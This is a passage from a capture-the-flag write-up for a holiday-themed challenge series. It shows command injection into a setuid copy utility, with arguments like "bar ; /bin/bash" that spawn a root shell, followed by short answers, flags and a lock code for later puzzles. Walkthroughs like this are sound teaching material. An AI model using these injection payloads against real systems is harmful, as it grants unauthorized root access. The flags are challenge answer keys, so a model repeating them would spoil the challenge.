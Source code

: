 `ls -l /usr/bin/simplecopy`

- let's test it out

`simplecopy /root/* ./`

- This copies the ***runmetoanswer*** binary from the root folder, though, it isn't much help as we can't execute it 

- Investigating the binary reveals that it executes 'cp %s %s' so we can inject commands

`strings /usr/bin/simplecopy`
    
    
    simplecopy foo "bar ; whoami"
    cp: cannot stat 'foo': No such file or directory
    root

    simplecopy foo "bar ; /bin/bash"
    cd /root
    ./runmetoanswer


or 

    simplecopy foo "bar ; /root/runmetoanswer"

    Who delivers Christmas Presents?

    santa


## Tarnished Trove 

###  Game Cartridges Vol. 1

Fix the QR code then scan for URL 

http://8bitelf.com

`flag:santaconfusedgivingplanetsqrcode`

## Squarewheel Yard

### Luggage Lock
Decode as if you would a real wheel lock (as much as possible) 
`7484`

### Fishing Challenge

# Film Noir Island

## The Blacklight District

### Phish Detective Agency
